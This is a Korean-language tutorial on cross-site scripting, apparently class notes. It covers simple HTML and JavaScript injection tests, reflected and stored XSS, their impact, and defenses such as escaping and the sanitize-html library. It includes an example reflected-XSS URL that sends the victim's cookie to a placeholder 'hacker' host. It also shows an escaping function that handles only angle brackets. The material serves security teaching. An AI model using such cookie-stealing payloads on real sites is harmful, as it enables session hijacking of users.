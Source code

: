 # XSS (Cross Site Scripting)

#### 작성자 : [김우영](https://github.com/0x000613)

## 1. XSS란 무엇인가?

XSS는 Cross Site Scripting이라는 웹 공격기법의 약자입니다.

SQL Injection과 더불어 가장 흔하게 발생하며, 공격 시도 난이도에 비해 시스템에 막대한 영향을 줄 수 있는 취약점입니다.

XSS는 주로 웹 애플리케이션에서 일어나는 취약점으로 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 악의적인 스크립트를 삽입하는 공격 기법입니다. XSS 공격은 대부분의 사용자가 글을 쓰고 읽을 수 있는 게시판에 주로 발생하지만, 사용자가 입력한 값을 웹페이지에 보여주는 항목(예를 들어 아이디, 닉네임등)에도 마찬가지로 적용이 가능합니다.

## 2. 실습

sample 디렉토리에 간단한 node.js 백엔드 서버를 생성한 후 진행합니다.

### 2.1 단순 HTML 문법을 사용한 공격 예시

1. `<h1>Hello, world</h1>`라는 일반적인 HTML `<h1>`태그를 사용하여 댓글을 작성했을 때 
   ![exam1](img\exam1.png)
2. `<img src="https://upload.wikimedia.org/wikipedia/commons/thumb/2/2f/Google_2015_logo.svg/1200px-Google_2015_logo.svg.png" />`라는 이미지 삽입 태그인`<img>`를 사용하여 댓글을 작성하였을 때
   ![exam2](img\exam2.png)

이런식으로 기본적인 HTML태그를 삽입하는것만으로도 사이트에 문제 될만한 행위가 가능합니다.

### 2.2 자바스크립트를 삽입했을 때

기본적인 HTML태그를 삽입하는 XSS의 경우 보편적으로는 사이트의 흐름이나 레이아웃을 깨뜨리는것에서 그치지만 악의적인 스크립트가 삽입되었을 경우에는 중대한 보안 문제가 발생할 수 있습니다.

1. `alert()`함수를 이용한 alert창 발생시키기
   ![exam3](D:\Documents\GitHub\Stuckyi-TechCamp\docs\2-week\XSS\img\exam3.png)

2. 사이트를 이동시키는 XSS 스크립트

   `location.href="https://naver.com"`스크립트를 삽입해 네이버로 강제 이동된 모습
   ![exam4](D:\Documents\GitHub\Stuckyi-TechCamp\docs\2-week\XSS\img\exam4.png)

## 3. XSS 공격 유형

방금 알아본 XSS 공격기법은은 크게 두가지 종류로 나눌 수 있습니다.

1. Reflected XSS
   ![ReflectedXSS](img\ReflectedXSS.png)

   

   Reflected XSS 공격은 사용자에게 입력 받은 값을 서버에서 되돌려주는 서비스에서 발생합니다.
   예를 들어 사용자가 입력한 검색어를 그대로 노출시켜주는 웹사이트 혹은 사용자가 입력한 값을 에러 메세지에 포함하여 보여주는 웹사이트에서 Reflected XSS 공격 스크립트가 삽입뇌면, 서버가 사용자의 입력 값을 응답할 때 스크립트가 실행됩니다.
   보통 Reflected XSS는 공격자가 악의적인 스크립트와 함께 URL을 사용자에게 누르도록 유도하고, URL을 누른 사용자는 악의적인 스크립트가 실행되어어 공격당하게됩니다.

   만약 다음과 같은 공격 스크립트가 실행되게 된다면 (실습 예제 2.2.2의 `location.href`를 활용한 스크립트)

   ```javascript
   http://testweb?search=<script>location.href("http://hacker/getcookie/value="+ document.cookie);</script>
   ```

   해커는 자신의 서버로 사용자의 `document.cookie`즉 사용자의 쿠키를 탈취하여 자신의 서버로 전송하여 저장할 수 있게됩니다.
   

2. Stored XSS
   ![storedXSS](img\storedXSS.png)

가장 널리 자주 사용되는 XSS 기법이며 공격 순서는 다음과 같습니다.

1. 게시판과같이 사용자가 입력한 정보가 DBMS에 저장되는 웹서비스를 타겟으로 발생합니다.

2. 공격자는 공격 스크립트를 게시판에 작성하게되고, 서버는 이를 DB에 저장하게됩니다.
3. 정상 유저가 게시판 목록을 로드할 때 서버는 DB에 저장되어있던 악성 스크립트를 반환하게됩니다.
4. 정상 유저의 웹브라우저가 DOM을 해석하는 단계에서 악성 스크립트가 실행됩니다.

## 4. XSS 방어 실패시 발생하는 문제점

1. 가장 큰 문제점은 대부분의 XSS 공격은 사용자나 관리자의 계정을 모르더라도 쿠키 탈취 및 세션 하이재킹으로 공격자가 회원 권한을 가지게 된다는 것입니다.
2. 자바스크립트는 웹 요소를 자유자재로 컨트롤이 가능하기에, 정상 유저에게 거짓된 페이지를 노출시키거나 사이트 이용 자체를 불가하도록 하는 등의 문제를 발생시킬 수 있습니다.

## 5. XXS 공격 대응 방법

1. 입력 값 검증
   사용자가 입력한 값에 대한 검증절차를 거치도록 하며, 절대로 사용자가 입력한 값 그대로를 사용하지 않습니다. 이는 SQL Injection과 마찬가지로 XSS 공격 대응의 가장 기본적인 방법입니다.

   다음 함수는 XSS를 필터링하는 정규표현식 함수입니다.

   ```javascript
   function XSSFilter(content) {
     return content.replace(/</g, "&lt;").replace(/>/g, "&gt;");
   }
   ```

2. Anti XSS, XSS 방어 라이브러리 사용
   이미 만들어진 Anti XSS 라이브러리를 사용함으로써 보다 수월하게 XSS 공격을 방어할 수 있으며.
   대부분의 라이브러리가 입력값 검증 기능 역시 제공합니다.
   - 대표적인 node.js의 Anti XSS 라이브러리는 [sanitize-html](https://www.npmjs.com/package/sanitize-html) 입니다.
